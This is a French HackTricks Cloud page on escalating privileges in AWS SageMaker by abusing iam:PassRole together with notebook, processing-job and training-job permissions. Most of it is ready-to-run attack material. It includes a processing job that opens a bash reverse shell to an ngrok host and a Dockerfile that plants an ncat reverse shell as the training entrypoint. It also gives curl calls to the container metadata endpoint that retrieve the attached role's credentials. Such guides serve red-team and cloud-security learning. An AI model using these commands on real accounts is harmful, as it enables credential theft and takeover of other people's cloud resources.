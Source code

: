 # AWS - Élévation de privilèges Sagemaker

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert Red Team AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Commencez à créer un notebook avec le rôle IAM y accédant attaché :
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
La réponse devrait contenir un champ `NotebookInstanceArn`, qui contiendra l'ARN de la nouvelle instance de notebook créée. Nous pouvons ensuite utiliser l'API `create-presigned-notebook-instance-url` pour générer une URL que nous pouvons utiliser pour accéder à l'instance de notebook une fois qu'elle est prête :
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Accédez à l'URL avec le navigateur et cliquez sur `Open JupyterLab` en haut à droite, puis faites défiler jusqu'à l'onglet “Launcher” et sous la section “Other”, cliquez sur le bouton “Terminal”.

Maintenant, il est possible d'accéder aux informations d'identification des métadonnées du rôle IAM.

**Impact potentiel:** Élévation des privilèges vers le rôle de service sagemaker spécifié.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

Si des **notebooks Jupyter sont déjà en cours d'exécution** et que vous pouvez les lister avec `sagemaker:ListNotebookInstances` (ou les découvrir de toute autre manière), vous pouvez **générer une URL pour y accéder, les ouvrir et voler les informations d'identification comme indiqué dans la technique précédente**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impact potentiel :** Élévation des privilèges vers le rôle de service Sagemaker attaché.

## `sagemaker:CreateProcessingJob,iam:PassRole`

Un attaquant avec ces autorisations peut faire exécuter à **Sagemaker une tâche de traitement** avec un rôle Sagemaker qui lui est attaché. L'attaquant peut indiquer la définition du conteneur qui sera exécuté dans une **instance de compte ECS géré par AWS**, et **voler les informations d'identification du rôle IAM attaché**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impact potentiel :** Élévation des privilèges vers le rôle de service Sagemaker spécifié.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un attaquant avec ces autorisations pourra créer un job de formation, **exécuter un conteneur arbitraire** avec un **rôle attaché**. Par conséquent, l'attaquant pourra voler les informations d'identification du rôle.

{% hint style="warning" %}
Ce scénario est plus difficile à exploiter que le précédent car vous devez générer une image Docker qui enverra le shell rev ou les informations d'identification directement à l'attaquant (vous ne pouvez pas indiquer une commande de démarrage dans la configuration du job de formation).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impact potentiel :** Privesc vers le rôle de service sagemaker spécifié.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un attaquant avec ces autorisations pourra (potentiellement) créer un **job d'entraînement d'hyperparamètres**, **exécuter un conteneur arbitraire** avec un **rôle attaché**.\
_Je n'ai pas exploité par manque de temps, mais cela semble similaire aux exploits précédents, n'hésitez pas à envoyer un PR avec les détails de l'exploitation._

# Références
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
